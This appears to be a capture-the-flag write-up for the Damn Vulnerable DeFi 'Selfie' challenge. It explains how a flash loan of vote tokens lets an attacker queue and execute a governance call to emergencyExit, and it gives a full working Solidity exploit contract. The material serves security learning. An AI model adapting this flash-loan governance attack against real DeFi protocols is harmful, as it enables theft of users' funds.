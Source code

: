 # Notes

The goal is to drain all the funds from the `SelfiePool`. A very interesting function for that is:

```solidity
function emergencyExit(address receiver) external onlyGovernance {
    uint256 amount = token.balanceOf(address(this));
    token.transfer(receiver, amount);

    emit EmergencyExit(receiver, amount);
}
```

The problem, of course, is how to bypass the `onlyGovernance` modifier:

```solidity
modifier onlyGovernance() {
    if (msg.sender != address(governance)) {
        revert CallerNotGovernance();
    }
    _;
}
```

Okay, so considering there's a flashloan function, there might be a way to exploit it to somehow trigger a function call on a target contract or do something sneaky. Let's dig in:

```solidity
function flashLoan(IERC3156FlashBorrower _receiver, address _token, uint256 _amount, bytes calldata _data)
    external
    nonReentrant
    returns (bool)
{
    if (_token != address(token)) {
        revert UnsupportedCurrency();
    }

    token.transfer(address(_receiver), _amount);
    if (_receiver.onFlashLoan(msg.sender, _token, _amount, 0, _data) != CALLBACK_SUCCESS) {
        revert CallbackFailed();
    }

    if (!token.transferFrom(address(_receiver), address(this), _amount)) {
        revert RepayFailed();
    }

    return true;
}
```

In the governance contract, in order to perform actions, you need to have enough “vote” tokens, and looking at the deployment we can see that the vote token is the same as the one used by the pool:

```solidity
// Deploy token
token = new DamnValuableVotes(TOKEN_INITIAL_SUPPLY);

// Deploy governance contract
governance = new SimpleGovernance(token);

// Deploy pool
pool = new SelfiePool(token, governance);

// Fund the pool
```

So that means with the flashloan we can temporarily hold a majority of the votes in a single transaction!

From there, we can flashloan -> request the `SimpleGovernance` contract to queue an action:

```solidity
    function queueAction(address target, uint128 value, bytes calldata data) external returns (uint256 actionId) {
        if (!_hasEnoughVotes(msg.sender)) {                 // <---- this is where we need the majority
            revert NotEnoughVotes(msg.sender);
        }

        if (target == address(this)) {
            revert InvalidTarget();
        }

        if (data.length > 0 && target.code.length == 0) {
            revert TargetMustHaveCode();
        }

        actionId = _actionCounter;

        _actions[actionId] = GovernanceAction({
            target: target,
            value: value,
            proposedAt: uint64(block.timestamp),
            executedAt: 0,
            data: data
        });

        unchecked {
            _actionCounter++;
        }

        emit ActionQueued(actionId, msg.sender);
    }
```

```solidity
function executeAction(uint256 actionId) external payable returns (bytes memory) {
    if (!_canBeExecuted(actionId)) {               
        revert CannotExecute(actionId);
    }

    GovernanceAction storage actionToExecute = _actions[actionId];
    actionToExecute.executedAt = uint64(block.timestamp);

    emit ActionExecuted(actionId, msg.sender);

    return actionToExecute.target.functionCallWithValue(actionToExecute.data, actionToExecute.value);
}
```

So in the end, it will call **any** function on **any** contract with **any** parameters.

So the exploit chain would look like this:

- Flashloan to gain majority of the voting power (note: we need to delegate() tokens to be considerated in getVotes())
- Propose a new action: call `emergencyExit()` with our address as the recipient
- Wait for the delay (foundry cheatcode)
- Execute the action

## Exploit

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../../src/selfie/SelfiePool.sol";
import "../../src/selfie/SimpleGovernance.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Votes} from "@openzeppelin/contracts/token/ERC20/extensions/ERC20Votes.sol";


contract ExploitHelper is IERC3156FlashBorrower {
    address public owner;
    SelfiePool public pool;
    SimpleGovernance public governance;
    IERC20 public token;
    uint256 public actionId;
    address recovery;

    constructor(address _recovery, address _pool, address _governance, address _token) {
        owner = msg.sender;
        recovery = _recovery;
        pool = SelfiePool(_pool);
        governance = SimpleGovernance(_governance);
        token = IERC20(_token);
    }

    function initiateAttack() external {
        require(msg.sender == owner, "Not owner");
        uint256 amount = token.balanceOf(address(pool));
        pool.flashLoan(IERC3156FlashBorrower(address(this)), address(token), amount, "");
    }

    // Called during the flashloan
    function onFlashLoan(
        address,
        address,
        uint256 amount,
        uint256,
        bytes calldata
    ) external override returns (bytes32) {
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)", recovery);

        ERC20Votes(address(token)).delegate(address(this));

        actionId = governance.queueAction(address(pool), 0, data);

        token.approve(address(pool), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function getActionId() external view returns (uint256) {
        return actionId;
    }

    function execute() external {
        governance.executeAction(actionId);
    }
}
```